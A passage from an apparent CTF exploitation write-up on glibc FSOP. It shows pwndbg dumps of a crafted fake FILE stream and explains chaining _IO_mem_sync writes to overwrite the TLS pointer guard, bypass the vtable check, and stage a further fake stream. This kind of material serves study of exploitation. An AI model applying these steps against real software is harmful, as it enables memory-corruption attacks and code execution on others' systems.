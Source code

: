 In our case `_IO_2_1_stdout_._IO_read_ptr` will do the trick.
```python
pwndbg> p/x &_IO_2_1_stdout_.file._IO_read_ptr
$19 = 0x7fb463244788
pwndbg> p/x 0x7fb463244788-104
$20 = 0x7fb463244720
pwndbg> p/x *((struct _IO_FILE*)0x7fb463244720)
$21 = {
  _flags = 0x0,
  _IO_read_ptr = 0x7fb463246740,
  _IO_read_end = 0xffffffffffffffff,
  _IO_read_base = 0x0,
  _IO_write_base = 0x7fb4632438a0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x7fb463245580,
  _markers = 0xfbad2a84,
  _chain = 0x563f556574a0,
  _fileno = 0x556574a0,
  _flags2 = 0x563f,
  _old_offset = 0x563f556574a0,
  _cur_column = 0x74a0,
  _vtable_offset = 0x65,
  _shortbuf = {0x55},
  _lock = 0x563f556574a0,
  _offset = 0x563f556574a0,
  _codecvt = 0x563f556574a0,
  _wide_data = 0x563f556578a0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0x0,
  _mode = 0x0,
  _unused2 = {0x0, 0x0, 0x0, 0x0, 0xa0, 0x3a, 0x24, 0x63, 0xb4, 0x7f, 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
}
```
* `_mode = 0`
* `_IO_write_base > _IO_write_ptr`

So we do not triggering `_IO_OVERFLOW` and we will just follow the `_chain` pointer.

After pointing back to our crafted fake FILE stream we now can perform another one `_IO_mem_sync`. With our second `_IO_mem_sync` we will do the following:
* Use one arbitrary write to disable the vtable check by overwriting the pointer guard in TLS with the value of `&_IO_vtable_check`. (Now from now on, we have a classical FSOP)
* Use one arbitrary write to partially corrupt `_IO_2_1_stdout_._IO_read_ptr` pointer so that we can perform another one FSOP. (This time our final fake FILE stream will be packed in our payload because our overflow is not enough to craft another fake FILE stream)
